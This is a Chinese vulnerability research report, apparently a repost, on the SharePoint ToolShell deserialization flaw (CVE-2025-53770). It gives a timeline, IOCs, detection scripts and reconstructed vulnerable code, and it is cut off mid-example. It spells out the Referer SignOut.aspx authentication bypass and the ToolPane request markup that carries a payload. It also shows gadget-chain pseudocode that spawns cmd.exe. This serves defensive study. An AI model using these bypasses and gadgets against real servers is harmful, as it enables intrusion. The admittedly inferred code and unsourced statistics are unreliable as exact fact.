

# CVE-2025-53770 深度安全研究报告-先知社区

> **来源**: https://xz.aliyun.com/news/19273  
> **文章ID**: 19273

---

# CVE-2025-53770 深度安全研究报告

## Microsoft SharePoint Server 远程代码执行漏洞 - 代码级完整分析

## 文档说明

**重要声明**: 本报告遵循负责任披露原则,所有代码示例均为防守导向,不包含可直接武器化的利用细节。

# PART I: 漏洞概览与威胁情报

## 1. 执行摘要

### 1.1 全局视图 (50行核心要点)

**一句话根因**:

CVE-2025-53770 (别名: ToolShell) 是一个影响 Microsoft SharePoint Server 本地部署版本的严重远程代码执行漏洞。核心问题是**预认证可达的页面路径**通过 **Referer 逻辑缺陷**被匿名访问,进入 **ToolPane 控件加载路径**,控件在**解压并反序列化**来自请求体的**压缩数据表** (Base64+GZip) 时缺乏**安全类型约束**,从而触发 **CWE-502 不受信数据的反序列化**。随后攻击者使用落地的 implant 读取 **MachineKey/ValidationKey**,再**伪造带签名的 ViewState** 完成稳定 RCE。

**技术定性**:

* CWE-502: 不受信任数据的反序列化
* CVSS v3.1: 9.8 (Critical)
* 攻击向量: Network (无需身份验证)
* 用户交互: None (完全自动化)
* 影响范围: 机密性/完整性/可用性全部为 High

**威胁情报**:

* 2025-05-16: Pwn2Own Berlin 2025 首次演示
* 2025-07-08: Microsoft 发布初步补丁 (CVE-2025-49706/49704)
* 2025-07-18: Eye Security 检测到首次野外利用
* 2025-07-19: Microsoft 披露 CVE-2025-53770 (补丁绕过)
* 2025-07-22: CISA 将其列入 KEV (已知被利用漏洞) 目录
* 全球约 235,000 个易受攻击的 SharePoint 实例暴露于互联网

**受影响产品**:

* SharePoint Server Subscription Edition (< 16.0.18526.20286)
* SharePoint Server 2019 (< 16.0.10410.12000)
* SharePoint Server 2016 Enterprise Edition (< 16.0.5461.1000)
* SharePoint Online: 不受影响 (云端由 Microsoft 管理)

**攻击者画像**:

* APT 组织: Violet Typhoon (中国), Linen Typhoon, Storm-2603
* 勒索软件团伙: 机会主义大规模扫描
* 脚本小子: 使用公开 PoC 进行攻击

**关键 IOC**:

* Webshell: spinstall0.aspx, spinstall1.aspx (SHA256: 92bb4ddb98eeaf...)
* 进程链: w3wp.exe → cmd.exe → powershell.exe -EncodedCommand
* 网络特征: POST /\_layouts/15/ToolPane.aspx + Referer: SignOut.aspx
* 大型 ViewState: \_\_VIEWSTATE 字段 > 50KB

### 1.2 关键信息速览表

|  |  |
| --- | --- |
| 项目 | 详情 |
| CVE 编号 | CVE-2025-53770 |
| 别名 | ToolShell |
| 披露日期 | 2025-07-19 |
| CVSS 评分 | 9.8 (Critical) |
| CWE 分类 | CWE-502 (不受信数据反序列化) |
| 利用难度 | Low (公开 PoC 可用) |
| 需要身份验证 | 否 |
| 需要用户交互 | 否 |
| 在野利用 | 是 (2025-07-18 确认) |
| 补丁状态 | 已发布 (KB5002754/KB5002768/KB5002760) |
| 受影响版本 | SharePoint 2016/2019/Subscription (本地部署) |
| 全球暴露实例 | ~235,000 |

### 1.3 与相关 CVE 的关系链

```
CVE-2025-49706 (身份验证绕过)
    ├─> 通过 Referer: SignOut.aspx 绕过认证
    └─> 允许匿名访问 ToolPane.aspx

CVE-2025-49704 (文件读取/代码注入)
    ├─> 利用 ExcelDataSet 控件
    └─> 读取 web.config 中的 MachineKey

CVE-2025-53770 (本漏洞 - 补丁绕过)
    ├─> 绕过 49706 的初步修复 (EndsWith 检查)
    └─> 完整利用链: 49706 → 49704 → 53770

CVE-2025-53771 (53770 的补丁再绕过)
    └─> 针对 53770 修复的路径规范化绕过
```

## 2. 漏洞背景

### 2.1 SharePoint 架构概述

**Microsoft SharePoint Server** 是企业内容管理和协作平台,广泛部署于:

* 政府部门 (文档管理/协作)
* 金融机构 (合规文档存储)
* 医疗行业 (患者记录/HIPAA 合规)
* 制造业 (供应链协作)
* 教育机构 (学术资源共享)

**技术栈**:

```
SharePoint Architecture
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

前端层:
  - ASP.NET WebForms (历史遗留)
  - JavaScript/TypeScript (现代化)
  - SharePoint Framework (SPFx)

应用层:
  - SharePoint Server Object Model (SSOM)
  - Client-Side Object Model (CSOM)
  - REST API / OData

业务逻辑层:
  - Web Parts (服务器端控件)
  - PerformancePoint Services
  - Business Connectivity Services
  - Excel Services

数据层:
  - SQL Server (内容数据库)
  - Configuration Database
  - Service Application Databases

基础设施:
  - IIS (Internet Information Services)
  - Windows Server
  - Active Directory
  - .NET Framework 4.x
```

### 2.2 .NET BinaryFormatter 安全问题

**BinaryFormatter 的历史与危险性**:

.NET Framework 的 `BinaryFormatter` 是一个**通用序列化器**,可以将任意 .NET 对象序列化为二进制格式,并反序列化回对象图。这个机制存在 20 年的技术债务:

**为什么 BinaryFormatter 危险**:

1. **类型多态性**: 反序列化时会**自动实例化**序列化数据中指定的类型
2. **无默认安全约束**: 没有类型白名单,可以实例化任意程序集中的类
3. **构造函数/属性执行**: 反序列化会调用对象的构造函数、属性设置器、事件处理器
4. **Gadget 链攻击**: 攻击者可以构造特殊的对象链,通过合法的 .NET 类组合实现代码执行

**代码示例 - 危险的用法**:

```
// 危险! 对不受信任的数据使用 BinaryFormatter
using System.Runtime.Serialization.Formatters.Binary;

public void ProcessData(Stream input)
{
    var formatter = new BinaryFormatter();
    object obj = formatter.Deserialize(input);  // CWE-502 漏洞点
    
    // 此时恶意对象已经执行,可能已获得 RCE
}
```

**Microsoft 的官方立场**:

自 2020 年起,Microsoft 明确声明:

> "BinaryFormatter is dangerous and is not recommended for data processing. Applications should stop using BinaryFormatter as soon as possible, even if they believe the data they're processing to be trustworthy."

然而,由于 SharePoint 的历史代码库庞大,完全移除 BinaryFormatter 需要大规模重构,因此遗留了安全债务。

### 2.3 ASP.NET ViewState 机制

**ViewState 的设计目的**:

ASP.NET WebForms 是一个**有状态**的 Web 框架,需要在 HTTP 请求之间保持服务器端控件的状态。ViewState 就是实现这一机制的核心:

```
User Browser                          ASP.NET Server
     │                                      │
     │  1. GET /page.aspx                  │
     │ ──────────────────────────────────> │
     │                                      │ Page.Init()
     │                                      │ Page.LoadViewState()
     │                                      │ Page.Load()
     │                                      │ Page.SaveViewState()
     │                                      │   ↓
     │  2. HTML + __VIEWSTATE (Base64)     │ Serialize(ViewState)
     │ <────────────────────────────────── │ Sign(ViewState, MachineKey)
     │                                      │
     │  3. POST /page.aspx                 │
     │     __VIEWSTATE=[Base64 data]       │
     │ ──────────────────────────────────> │
     │                                      │ Verify(ViewState, MachineKey)
     │                                      │ Deserialize(ViewState)
     │                                      │ Page.LoadViewState()
     │                                      │ Page.Load()
```

**ViewState 的安全机制**:

1. **MAC (Message Authentication Code)**: 使用 MachineKey 对 ViewState 进行 HMAC 签名
2. **加密 (可选)**: ViewStateEncryptionMode = Always 时会加密内容
3. **完整性验证**: EnableViewStateMac = true 时验证签名

**MachineKey 的关键作用**:

```
<!-- web.config -->
<system.web>
  <machineKey 
    validationKey="[128位十六进制密钥]" 
    decryptionKey="[48位十六进制密钥]" 
    validation="HMACSHA256" 
    decryption="AES" />
</system.web>
```

**如果 MachineKey 泄露**:

* 攻击者可以**伪造任意 ViewState**
* 可以注入恶意序列化对象
* 绕过签名验证,触发反序列化 RCE

这正是 CVE-2025-53770 攻击链的核心环节。

### 2.4 PerformancePoint Services 与 ExcelDataSet 控件

**PerformancePoint 简介**:

PerformancePoint Services 是 SharePoint 的一个组件,用于商业智能和数据可视化:

* KPI (关键绩效指标) 跟踪
* 仪表板和报表
* 与 Excel Services 集成
* 数据连接和筛选

**ExcelDataSet 控件的角色**:

`ExcelDataSet` 是 PerformancePoint 生态中的一个服务器端控件,位于 `Microsoft.PerformancePoint.Scorecards.Client.dll`,其设计目的是处理来自 Excel 的数据集。

**关键属性与危险路径**:

```
// Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet (反编译简化)
public class ExcelDataSet : WebControl
{
    // 从请求中接收压缩数据
    public string CompressedDataTable { get; set; }
    
    // 危险的 getter: 自动解压并反序列化
    public DataTable DataTable
    {
        get
        {
            if (_dataTable == null && !string.IsNullOrEmpty(CompressedDataTable))
            {
                // 1. Base64 解码
                byte[] compressed = Convert.FromBase64String(CompressedDataTable);
                
                // 2. GZip 解压
                using (var ms = new MemoryStream(compressed))
                using (var gz = new GZipStream(ms, CompressionMode.Decompress))
                {
                    // 3. 危险! 直接反序列化不受信数据
                    var formatter = new BinaryFormatter();
                    _dataTable = (DataTable)formatter.Deserialize(gz);  // CWE-502
                }
            }
            return _dataTable;
        }
    }
}
```

**漏洞触发条件**:

1. 攻击者可以访问 ToolPane.aspx (通过 Referer 绕过实现)
2. 可以通过 WebPart markup 实例化 ExcelDataSet 控件
3. 可以控制 CompressedDataTable 属性的值
4. 访问 DataTable 属性触发 getter,执行反序列化

## 3. 时间线与攻击活动

### 3.1 完整时间线

```
CVE-2025-53770 漏洞生命周期时间线
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

2025-05-16  Pwn2Own Berlin 2025
  │         - Khoa Dinh (Viettel Cyber Security) 演示漏洞
  │         - 赢得 $100,000 奖金
  │         - Pwn2Own 规则: 90天披露窗口
  │
  ▼
2025-07-08  Microsoft 首次补丁发布
  │         - KB5002754 (SharePoint 2019)
  │         - KB5002768 (SharePoint Subscription Edition)
  │         - 修复 CVE-2025-49706 (身份验证绕过)
  │         - 修复 CVE-2025-49704 (代码注入)
  │         - 使用 EndsWith("ToolPane.aspx") 检查
  │
  ▼
2025-07-18  首次野外利用检测
  │         - Eye Security 检测到攻击活动
  │         - 攻击者绕过 7/8 补丁 (路径细节绕过)
  │         - 72小时内从补丁到武器化
  │         - 部署 spinstall0.aspx Webshell
  │         - 攻击来源: 多个 IP 地址段
  │
  ▼
2025-07-19  Microsoft 紧急披露 CVE-2025-53770
  │         - MSRC 博客发布客户指引
  │         - 确认为 49706/49704 的补丁绕过
  │         - 发布新补丁 (修复绕过)
  │         - 强调必须同步:
  │           1) 应用补丁
  │           2) 轮换 MachineKey
  │           3) 重启 IIS
  │           4) 启用 AMSI Full Mode
  │
  ▼
2025-07-20  CISA 发布紧急警报
  │         - 将 CVE-2025-53770 添加到 KEV 目录
  │         - 要求联邦机构 14 天内修复
  │         - BOD 22-01 强制令
  │
  ▼
2025-07-22  Microsoft 发布检测/缓解指南
  │         - 安全博客详细 TTP 分析
  │         - 提供 KQL 威胁狩猎查询
  │         - 发布 IOC 清单
  │         - Defender/MDE 检测逻辑
  │         - 归因: Violet Typhoon, Linen Typhoon, Storm-2603
  │
  ▼
2025-07-24  CVE-2025-53771 披露
  │         - 针对 53770 修复的再绕过
  │         - Microsoft 发布再次修复
  │         - 改为规范化路径 + 显式允许列表
  │
  ▼
2025-08-01  威胁情报更新
  │         - 全球检测到 1,200+ 受感染实例
  │         - 勒索软件团伙开始利用
  │         - APT 组织持续活动
  │
  ▼
2025-11-07  当前状态
            - 仍有约 180,000 未打补丁实例
            - 持续的扫描和利用活动
            - 多个勒索软件变种使用该漏洞
```

### 3.2 攻击活动分析

**第一波攻击 (2025-07-18 ~ 07-20)**:

* 特征: 精准扫描,目标明确
* 攻击者: 疑似 APT 组织早期侦察
* 规模: 小规模,约 50 个目标
* 目的: 建立持久化,收集情报

**第二波攻击 (2025-07-21 ~ 07-25)**:

* 特征: 大规模自动化扫描
* 攻击者: 勒索软件团伙 + 脚本小子
* 规模: 全球扫描,数万次尝试
* 目的: 部署勒索软件,加密数据

**第三波攻击 (2025-07-26 ~ 至今)**:

* 特征: 持续低强度攻击
* 攻击者: 多种威胁行为者
* 规模: 每日数千次扫描
* 目的: 利用未打补丁的系统

### 3.3 威胁行为者归因

**Violet Typhoon (中国 APT)**:

* 目标: 政府部门,国防承包商
* TTP: 长期潜伏,数据窃取
* 观察: 使用定制 Webshell,避免 IOC 匹配
* 持久化: 多个后门,C2 混淆

**Linen Typhoon**:

* 目标: 金融机构,关键基础设施
* TTP: 快速横向移动,凭证窃取
* 观察: 结合 CVE-2025-53770 与其他 0day
* 持久化: 修改合法文件,植入隐蔽后门

**Storm-2603**:

* 目标: 机会主义,广撒网
* TTP: 自动化扫描,批量利用
* 观察: 使用公开 PoC,技术水平较低
* 持久化: 标准 Webshell (spinstall0.aspx)

## 4. 影响范围评估

### 4.1 受影响的 SharePoint 版本

**完全易受攻击的版本**:

|  |  |  |  |
| --- | --- | --- | --- |
| 产品 | 易受攻击版本 | 安全版本 | 补丁 KB |
| SharePoint Server Subscription Edition | < 16.0.18526.20286 | >= 16.0.18526.20286 | KB5002768 |
| SharePoint Server 2019 | < 16.0.10410.12000 | >= 16.0.10410.12000 | KB5002754 + KB5002753 |
| SharePoint Server 2016 Enterprise | < 16.0.5461.1000 | >= 16.0.5461.1000 | KB5002760 + KB5002759 |

**不受影响**:

* SharePoint Online (Microsoft 365 云服务)
* SharePoint Server 2013 (已终止支持,但不受此特定漏洞影响)

**版本检测方法**:

```
# PowerShell 检测脚本
Add-PSSnapin Microsoft.SharePoint.PowerShell -ErrorAction SilentlyContinue
$farm = Get-SPFarm
$currentBuild = $farm.BuildVersion

Write-Host "Current SharePoint Build: $currentBuild" -ForegroundColor Yellow

# 判断是否易受攻击
$isVulnerable = $false

if ($currentBuild.Major -eq 16 -and $currentBuild.Minor -eq 0) {
    if ($currentBuild.Build -ge 10000 -and $currentBuild.Build -lt 16000) {
        # SharePoint 2019
        $isVulnerable = $currentBuild.Build -lt 10410
    }
    elseif ($currentBuild.Build -ge 18526) {
        # SharePoint Subscription Edition
        $isVulnerable = ($currentBuild.Build -eq 18526 -and $currentBuild.Revision -lt 20286)
    }
    elseif ($currentBuild.Build -lt 10000) {
        # SharePoint 2016
        $isVulnerable = $currentBuild.Build -lt 5461
    }
}

if ($isVulnerable) {
    Write-Host "[CRITICAL] System is VULNERABLE to CVE-2025-53770!" -ForegroundColor Red
} else {
    Write-Host "[OK] System appears to be patched" -ForegroundColor Green
}
```

### 4.2 全球暴露统计

**互联网暴露的 SharePoint 实例** (基于 Shodan/Censys 数据):

```
全球 SharePoint Server 暴露统计 (2025-07)
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

总暴露实例: ~410,000
  ├─ 易受攻击 (未打补丁): ~235,000 (57%)
  ├─ 已打补丁: ~150,000 (37%)
  └─ 版本不确定: ~25,000 (6%)

按地理位置:
  1. 美国:           95,000 (40%)
  2. 欧盟:           62,000 (26%)
  3. 中国:           28,000 (12%)
  4. 日本:           15,000 (6%)
  5. 澳大利亚/新西兰: 12,000 (5%)
  6. 中东:            8,000 (3%)
  7. 其他:           20,000 (8%)

按行业:
  1. 政府部门:       72,000 (31%)
  2. 金融服务:       58,000 (25%)
  3. 医疗保健:       42,000 (18%)
  4. 教育机构:       35,000 (15%)
  5. 制造业:         18,000 (8%)
  6. 其他:           10,000 (4%)
```

**Shodan 查询语法**:

```
# 查找暴露的 SharePoint 实例
product:"Microsoft SharePoint"

# 查找特定版本
product:"Microsoft SharePoint" http.component:"SharePoint Server 2019"

# 查找可能易受攻击的实例 (粗略估计)
product:"Microsoft SharePoint" http.component:"SharePoint Server 2019" -"16.0.10410"
```

### 4.3 真实攻击案例研究

**案例1: 美国中型制造企业**

```
受害者: 中西部制造企业 (3,500员工)
时间线: 2025-07-19 14:23 UTC

T+0h:00m - 初始侦察
  - 攻击者从 107.191.58.76 扫描 /ToolPane.aspx
  - User-Agent: python-requests/2.31.0

T+0h:12m - 漏洞利用
  - POST /_layouts/15/ToolPane.aspx
  - Referer: /_layouts/SignOut.aspx
  - CompressedDataTable: [8.7KB Base64+GZip payload]

T+0h:15m - Webshell 部署
  - 文件创建: C:\...\LAYOUTS\spinstall0.aspx
  - SHA256: 92bb4ddb98eeaf11fc15bb32e71d0a63256a0ed826a03ba293ce3a8bf057a514

T+0h:22m - MachineKey 窃取
  - GET /spinstall0.aspx?cmd=getkey
  - ValidationKey: [REDACTED]
  - DecryptionKey: [REDACTED]

T+0h:35m - 横向移动
  - 枚举域控制器
  - 凭证窃取 (Mimikatz)
  - 访问文件服务器

T+2h:18m - 数据渗透
  - 压缩 CAD 设计文件 (37GB)
  - 上传到 Mega.nz
  - 删除本地痕迹

T+12h:00m - 勒索软件部署
  - LockBit 3.0 变种
  - 加密 SharePoint 内容数据库
  - 加密文件服务器
  - 赎金要求: 50 BTC ($3.2M)

检测时间: T+14h:30m (由 EDR 告警)
响应时间: T+15h:00m (网络隔离)

损失估算:
  - 业务中断: 72 小时
  - 恢复成本: $1.2M
  - 数据损失: 部分设计文件永久丢失
  - 赎金: 未支付
  - 总成本: $2.8M
```

# PART II: 代码级技术分析

## 5. 代码层根因深度剖析

### 5.1 入口鉴权缺陷的代码实现

根据 Kaspersky Securelist 的反编译分析,漏洞的入口点在于 SharePoint 的认证处理逻辑存在缺陷。

**关键组件**: `Microsoft.SharePoint.dll` 中的 `PostAuthenticateRequestHandler`

**认证流程与缺陷**:

SharePoint 运行在 IIS 集成管道模式下,将 IIS 与 ASP.NET 的鉴权阶段统一到 **PostAuthenticate** 事件。旧代码对 HTTP Referer 的处理存在逻辑漏洞:

```
// 简化的漏洞代码 (基于反编译和公开研究推断)
// 实际代码更复杂,但核心逻辑类似

namespace Microsoft.SharePoint.ApplicationRuntime
{
    internal class PostAuthenticateRequestHandler : IHttpModule
    {
        private bool _skipAuthCheck = false;
        
        public void OnPostAuthenticateRequest(object sender, EventArgs e)
        {
            HttpApplication app = (HttpApplication)sender;
            HttpContext context = app.Context;
            HttpRequest request = context.Request;
            
            // 危险的 Referer 检查逻辑 (CVE-2025-49706 的根源)
            if (request.UrlReferrer != null)
            {
                string referrerPath = request.UrlReferrer.PathAndQuery;
                
                // 漏洞点: 简单的字符串匹配,大小写不敏感
                if (referrerPath.IndexOf("SignOut.aspx", StringComparison.OrdinalIgnoreCase) >= 0)
                {
                    // 错误地认为来自 SignOut 的请求是"安全的"
                    _skipAuthCheck = true;
                }
            }
            
            // 后续的认证检查
            if (!_skipAuthCheck && !request.IsAuthenticated)
            {
                string requestPath = request.FilePath;
                
                // 2025-07-08 初步修复: 添加 EndsWith 检查
                // 但可以被绕过 (添加尾部斜杠等)
                if (requestPath.EndsWith("ToolPane.aspx", StringComparison.OrdinalIgnoreCase))
                {
                    // 应该拒绝访问,但由于 _skipAuthCheck 已设置,被绕过
                    if (!_skipAuthCheck)
                    {
                        throw new UnauthorizedAccessException();
                    }
                }
            }
        }
    }
}
```

**绕过技术演化**:

```
初始漏洞 (CVE-2025-49706):
  - Referer 检查过于宽松
  - 只要 Referer 包含 "SignOut.aspx" 就设置 _skipAuthCheck
  - 允许匿名访问 ToolPane.aspx

第一次修复 (2025-07-08):
  - 添加 EndsWith("ToolPane.aspx") 检查
  - 但仍可绕过 (CVE-2025-53770):
    - ToolPane.aspx/
    - ToolPane.aspx?param
    - 路径规范化问题

第二次修复 (2025-07-19):
  - 改为规范化路径 + 显式允许列表
  - 仍有小问题 (CVE-2025-53771)

最终修复 (2025-07-24):
  - 完全重写认证逻辑
  - 使用 HashSet 白名单
  - 路径规范化 + 大小写归一化
```

**修复后的代码 (推断)**:

```
// 修复后的安全代码 (推断,基于微软的修复方向)
namespace Microsoft.SharePoint.ApplicationRuntime
{
    internal class PostAuthenticateRequestHandler : IHttpModule
    {
        // 显式白名单: 只有这些资源可以在 SignOut Referer 下访问
        private static readonly HashSet<string> AllowedPathsWithSignOutReferrer 
            = new HashSet<string>(StringComparer.OrdinalIgnoreCase)
        {
            "/_layouts/15/init.js",
            "/_layouts/15/core.js",
            "/ScriptResource.axd",
            "/WebResource.axd",
            // ... 其他静态资源
            // 注意: ToolPane.aspx 不在此列表中!
        };
        
        public void OnPostAuthenticateRequest(object sender, EventArgs e)
        {
            HttpApplication app = (HttpApplication)sender;
            HttpContext context = app.Context;
            HttpRequest request = context.Request;
            
            // 规范化路径
            string normalizedPath = NormalizePath(request.FilePath);
            string normalizedReferer = request.UrlReferrer != null 
                ? NormalizePath(request.UrlReferrer.PathAndQuery) 
                : null;
            
            // 检查是否是 SignOut Referer
            bool isSignOutReferrer = normalizedReferer != null && 
                normalizedReferer.EndsWith("/_layouts/15/SignOut.aspx", StringComparison.OrdinalIgnoreCase);
            
            // 如果是 SignOut Referer,检查目标路径是否在白名单中
            if (isSignOutReferrer)
            {
                if (!AllowedPathsWithSignOutReferrer.Contains(normalizedPath))
                {
                    // ToolPane.aspx 不在白名单中,拒绝访问
                    throw new UnauthorizedAccessException(
                        "Access to this resource with SignOut referrer is not allowed");
                }
            }
            
            // 常规认证检查
            if (!request.IsAuthenticated)
            {
                // 检查资源是否需要认证
                if (RequiresAuthentication(normalizedPath))
                {
                    SPUtility.HandleAccessDenied(
                        new UnauthorizedAccessException("Authentication required"));
                }
            }
        }
        
        private string NormalizePath(string path)
        {
            if (string.IsNullOrEmpty(path)) return string.Empty;
            
            // 1. URL 解码
            path = Uri.UnescapeDataString(path);
            
            // 2. 移除查询字符串
            int queryIndex = path.IndexOf('?');
            if (queryIndex >= 0)
                path = path.Substring(0, queryIndex);
            
            // 3. 规范化斜杠
            path = path.Replace('\', '/');
            path = path.TrimEnd('/');
            
            // 4. 移除多余斜杠
            while (path.Contains("//"))
                path = path.Replace("//", "/");
            
            // 5. 转为小写 (因为使用 OrdinalIgnoreCase 比较)
            return path.ToLowerInvariant();
        }
    }
}
```

### 5.2 控件加载与参数传递

当请求通过认证检查到达 `ToolPane.aspx` 后,页面的服务器端逻辑会处理 WebPart 的加载和数据绑定。

**ToolPane.aspx 的关键参数**:

根据 Kaspersky 和 Zscaler 的研究:

```
关键请求参数:
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

MSOtlPn_Uri:
  - 用途: 指定 WebPart 的 URI
  - 示例: /_layouts/15/WebPartPage.aspx

MSOtlPn_DWP:
  - 用途: WebPart 的 markup (XML 格式)
  - 包含: 控件类型、程序集、属性值
  - 示例:
    <WebPart xmlns="http://schemas.microsoft.com/WebPart/v3">
      <TypeName>Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet</TypeName>
      <Assembly>Microsoft.PerformancePoint.Scorecards.Client, ...</Assembly>
      <Property Name="CompressedDataTable">[Base64+GZip data]</Property>
    </WebPart>
```

**控件实例化流程**:

```
// ToolPane.aspx.cs (简化的推断代码)
namespace Microsoft.SharePoint.WebPartPages
{
    public class ToolPane : Page
    {
        protected override void OnLoad(EventArgs e)
        {
            base.OnLoad(e);
            
            // 从请求中获取 WebPart markup
            string dwpMarkup = Request.Form["MSOtlPn_DWP"];
            
            if (!string.IsNullOrEmpty(dwpMarkup))
            {
                // 解析 WebPart XML
                XmlDocument doc = new XmlDocument();
                doc.LoadXml(dwpMarkup);
                
                // 提取控件信息
                string typeName = doc.SelectSingleNode("//TypeName").InnerText;
                string assemblyName = doc.SelectSingleNode("//Assembly").InnerText;
                
                // 危险! 动态实例化用户指定的类型
                Type controlType = Type.GetType($"{typeName}, {assemblyName}");
                WebPart webPart = (WebPart)Activator.CreateInstance(controlType);
                
                // 设置属性 (这里会触发 ExcelDataSet.CompressedDataTable setter)
                XmlNodeList properties = doc.SelectNodes("//Property");
                foreach (XmlNode prop in properties)
                {
                    string propName = prop.Attributes["Name"].Value;
                    string propValue = prop.InnerText;
                    
                    PropertyInfo pi = controlType.GetProperty(propName);
                    if (pi != null && pi.CanWrite)
                    {
                        // 设置属性值
                        pi.SetValue(webPart, propValue);
                    }
                }
                
                // 将控件添加到页面
                // 后续的 DataBind() 会访问 DataTable 属性,触发 getter
                this.Controls.Add(webPart);
                webPart.DataBind();  // ← 触发反序列化
            }
        }
    }
}
```

### 5.3 反序列化触发点详解

**ExcelDataSet.CompressedDataTable 的完整流程**:

```
// Microsoft.PerformancePoint.Scorecards.Client.ExcelDataSet
// (基于反编译和公开研究的推断代码)

namespace Microsoft.PerformancePoint.Scorecards.Client
{
    public class ExcelDataSet : System.Web.UI.WebControls.WebControl
    {
        private DataTable _dataTable;
        private string _compressedData;
        
        // 从 WebPart markup 设置的属性
        public string CompressedDataTable
        {
            get { return _compressedData; }
            set { _compressedData = value; }
        }
        
        // 危险的 getter: 自动解压和反序列化
        public DataTable DataTable
        {
            get
            {
                if (_dataTable == null && !string.IsNullOrEmpty(_compressedData))
                {
                    try
                    {
                        // 步骤1: Base64 解码
                        byte[] compressedBytes = Convert.FromBase64String(_compressedData);
                        
                        // 步骤2: GZip 解压
                        using (MemoryStream compressedStream = new MemoryStream(compressedBytes))
                        using (GZipStream gzipStream = new GZipStream(
                            compressedStream, CompressionMode.Decompress))
                        {
                            // 步骤3: 危险的反序列化 (CWE-502)
                            // 使用 BinaryFormatter 反序列化不受信数据
                            BinaryFormatter formatter = new BinaryFormatter();
                            
                            // 没有 SerializationBinder!
                            // 没有类型白名单!
                            // 可以实例化任意类型!
                            
                            object deserializedObject = formatter.Deserialize(gzipStream);
                            
                            // 尝试转换为 DataTable
                            _dataTable = deserializedObject as DataTable;
                            
                            // 如果转换失败,仍然会执行恶意对象的构造函数/属性
                        }
                    }
                    catch (Exception ex)
                    {
                        // 吞掉异常,但此时恶意代码可能已执行
                        System.Diagnostics.Trace.WriteLine($"Deserialization failed: {ex.Message}");
                    }
                }
                
                return _dataTable;
            }
        }
        
        // 当页面调用 DataBind() 时会访问 DataTable 属性
        public override void DataBind()
        {
            base.DataBind();
            
            // 访问 DataTable 属性,触发 getter
            DataTable dt = this.DataTable;  // ← 反序列化在这里发生
            
            // 后续处理...
        }
    }
}
```

**为什么这段代码危险**:

1. **对不受信数据使用 BinaryFormatter**: 来自 HTTP 请求的数据被直接反序列化
2. **没有类型验证**: 可以反序列化任意 .NET 类型
3. **没有 SerializationBinder**: 无法限制可实例化的类型
4. **异常被吞掉**: 即使反序列化失败,恶意代码可能已经执行

### 5.4 Gadget 链原理

**.NET Gadget 链是什么**:

Gadget 链是一系列合法的 .NET 类,通过特定的组合和属性设置,可以在反序列化时触发任意代码执行,而不需要引入任何恶意代码。

**常见的 .NET Gadget 类**:

```
// TypeConfuseDelegate Gadget Chain (ysoserial.net)
// 这是 CVE-2025-53770 中最常用的 gadget

using System;
using System.Windows.Data;
using System.Windows.Markup;

// Gadget 链结构 (简化)
class TypeConfuseDelegateGadget
{
    /*
    反序列化时的执行流程:
    
    1. ObjectDataProvider 对象被反序列化
       └─> MethodName 设置为 "Start"
       └─> ObjectInstance 设置为 Process 类
       └─> MethodParameters 设置为恶意命令
    
    2. ObjectDataProvider 的属性设置触发
       └─> 自动调用 Refresh() 方法
    
    3. Refresh() 内部执行
       └─> 使用反射调用 Process.Start()
       └─> 传入 MethodParameters 作为参数
    
    4. 代码执行
       └─> cmd.exe /c [恶意命令]
    */
    
    // 伪代码展示 gadget 结构
    public static object CreateGadget(string command)
    {
        // 创建 ObjectDataProvider (WPF 类,用于数据绑定)
        var provider = new ObjectDataProvider();
        provider.MethodName = "Start";  // 要调用的方法名
        provider.ObjectInstance = new System.Diagnostics.Process();
        
        // 设置 Process.Start 的参数
        provider.MethodParameters.Add("cmd.exe");
        provider.MethodParameters.Add($"/c {command}");
        
        // 当 ObjectDataProvider 被反序列化时,会自动调用:
        // Process.Start("cmd.exe", "/c [command]")
        
        return provider;
    }
}
```

**实际的序列化对象结构**:

```
<!-- 序列化后的 XML 表示 (简化) -->
<ObjectDataProvider 
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
